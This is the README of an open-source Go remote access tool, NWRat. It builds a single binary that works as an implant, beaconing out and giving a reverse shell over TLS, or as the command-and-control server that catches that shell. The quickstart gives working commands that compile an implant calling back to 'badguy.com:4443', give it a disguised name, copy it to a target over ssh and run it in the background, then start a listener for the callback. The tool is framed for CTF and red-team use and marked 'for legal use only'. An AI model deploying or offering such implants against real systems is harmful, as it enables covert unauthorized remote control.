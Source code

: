 NWRat
=====
Barebones RAT which provides a shell over TLS.  Originally written several
years ago for SANS' NetWars, the source was lost and re-written for quite a
long CTF which was part of a job interview.

As an implant it's a single binary which tries to make a TLS connection to the
C2 server at a set interval.  If a connection is established, a shell is
spawned and its stdio hooked up the TLS connection.  Further connection
attempts are still made when a shell is running to enable multiple shells on
target (or for if you forget `-c` when you ping something).

As a C2 server it listens for a connection from the implant, does a TLS
handshake and proxies stdio to the connection.  The listening socket is closed
when a connection is accepted to enable catching multiple callbacks.

Features:
- Single binary for both implant and server
- Shell over TLS
- Constant beacons
- No fussing about with someone else's post-exploitation code
- Compile-time implant configuration
- Cross-platform (though, only if `/bin/sh` exists on the platform)
- Encrypted on the wire
- Easy to set up and use
- Documentation which assumes some familiarity with [Go](https://golang.org)

For legal use only.

Quickstart
----------
```sh
# Get the source
go get github.com/magisterquis/nwrat
# Build the C2 server for the local platform
go build github.com/magisterquis/nwrat
# Build an implant for a different platform, setting the callback address
GOOS=linux go build -o dockermoused -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
# Put the implant on target it and run it
ssh target 'cat >/tmp/dockermoused && chmod 0700 /tmp/dockermoused && /tmp/dockermoused &' <./dockermoused
# Catch a callback
./nwrat -listen localhost:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

Implant
-------
The implant is configured using Go linker directives.  There are three options:

Option                | Default           | Description
----------------------|-------------------|------------
main.callbackInterval | `1m`              | Callback interval, in Go's parseable duration [syntax](https://golang.org/pkg/time/#ParseDuration)
main.callbackAddr     | `example.com:443` | Callback address and port
main.implantDebug     | _unset_           | Set to any string to have the implant print debugging messages

As an example, to have the implant call back to `kittens.com:4433` every three
seconds and print debugging output, it would be built something like

```sh
go build -ldflags="-X main.callbackInterval=3s -X main.callbackAddr=kittens.com:4433 -X main.implantDebug=sure" github.com/magisterquis/nwrat
```

Editing the `var` block at the top also works.

Running the binary with no arguments causes it to function as the implant (as
opposed to the C2 server).

C2 Server
---------
When used with `-c2` the binary catches a callback.  A listen address and TLS
certificate and key corresponding to the domain the implant expects need to be
supplied via command-line options, similar to

```sh
./nwrat -listen 0.0.0.0:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

It's not a bad idea to wrap `nwrat` in [rlwrap](https://github.com/hanslub42/rlwrap)
or something similar, as there'll be no TTY or readline library.

When one side or the other disconnects, a message similar to
```
2020/07/22 00:28:25 Sent 206 bytes to implant
```
will be logged.

Windows
-------
At the moment, the C2 side should work just fine, but the implant won't be able
to start `/bin/sh`.  Feel free to submit a pull request.
